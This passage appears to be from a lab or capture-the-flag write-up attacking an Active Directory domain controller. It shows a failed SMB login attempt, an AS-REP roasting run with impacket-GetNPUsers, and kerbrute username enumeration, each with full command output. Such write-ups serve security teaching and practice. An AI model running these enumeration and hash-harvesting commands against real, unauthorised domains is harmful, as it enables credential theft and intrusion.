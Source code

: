```bash
SMB         192.168.209.30  445    NARA             [-] nara-security.com\Tracy.White:Tracy.White STATUS_LOGON_FAILURE
```

- That didn't turn out as expected so the next thing on my list is the ASREPRoasting attack which should be possible to get any user hash due to Kerberos pre-authentication required attribute enabled on an object.

```bash
❯ impacket-GetNPUsers nara-security.com/ -dc-ip 192.168.209.30 -usersfile users.txt -format hashcat -outputfile hashes.txt

Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Guest doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User NARA$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Amelia.O'Brien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Damian.Johnson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Helen.Robinson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Sara.O'Sullivan doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Jasmine.Roberts doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Declan.Reynolds doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Jodie.Summers doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Carolyn.Hill doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Jemma.Humphries doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Tracy.White doesn't have UF_DONT_REQUIRE_PREAUTH set
```

- The last technique also didn't yield result as expected so i decided to run my kerbrute and enumerate users again just to be sure i am on the right path. But hehe, No users where discovered except from the `Administrator` and `Guest` user account which is as usual. 

```bash
❯ kerbrute userenum --dc 192.168.209.30 --domain nara-security.com /usr/share/wordlists/seclist/Usernames/xato-net-10-million-usernames.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.1 (385cb2b) - 08/14/24 - Ronnie Flathers @ropnop

2024/08/14 21:35:26 >  Using KDC(s):
2024/08/14 21:35:26 >   192.168.209.30:88

2024/08/14 21:38:50 >  [+] VALID USERNAME:       guest@nara-security.com
2024/08/14 21:55:53 >  [+] VALID USERNAME:       administrator@nara-security.com

2024/08/14 23:13:00 >  Done! Tested 8295455 usernames (2 valid) in 5854.516 seconds

```
